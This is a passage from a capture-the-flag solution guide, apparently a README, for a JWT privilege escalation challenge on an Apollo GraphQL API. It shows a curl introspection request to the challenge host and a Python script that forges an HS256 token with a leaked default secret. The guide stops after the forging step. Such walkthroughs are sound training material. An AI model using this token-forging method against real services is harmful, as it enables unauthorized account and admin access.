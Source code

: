 # CTF Challenge Solution Guide

## 🎯 Challenge: JWT Privilege Escalation

This document provides a complete solution walkthrough for the Apollo GraphQL JWT privilege escalation CTF challenge.

## 📋 Challenge Summary

**Objective**: Gain admin access to retrieve sensitive information from the GraphQL API.

**Vulnerability**: JWT token forging + privilege escalation through `updateMyRole` mutation.

## 🔍 Step-by-Step Solution

### Step 1: Reconnaissance

First, explore the GraphQL schema to understand available queries and mutations:

```bash
# Access the GraphQL Playground
curl -X POST https://4000-ihbuvsewwq89vw5dzkq46-278bf4c2.manus.computer/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "query IntrospectionQuery { __schema { queryType { name fields { name description } } mutationType { name fields { name description } } } }"}'
```

**Key Findings**:
- `updateMyRole` mutation exists (suspicious!)
- `adminStats` query requires admin role
- JWT authentication is used

### Step 2: Analyze JWT Implementation

From the source code or documentation, we discover:
- **JWT Secret**: `your-super-secret-jwt-key-change-this-in-production`
- **Algorithm**: HS256
- **Payload Structure**: `{"userId": <id>, "iat": <timestamp>, "exp": <timestamp>}`

### Step 3: Forge a Valid JWT Token

#### Method 1: Using Python
```python
import jwt
import time

# The exposed JWT secret
secret = "your-super-secret-jwt-key-change-this-in-production"

# Create payload for user ID 1 (ctf_user)
payload = {
    "userId": 1,
    "iat": int(time.time()),
    "exp": int(time.time()) + 3600  # 1 hour from now
}

# Generate the forged token
forged_token = jwt.encode(payload, secret, algorithm="HS256")
print(f"Forged JWT Token: {forged_token}")
```
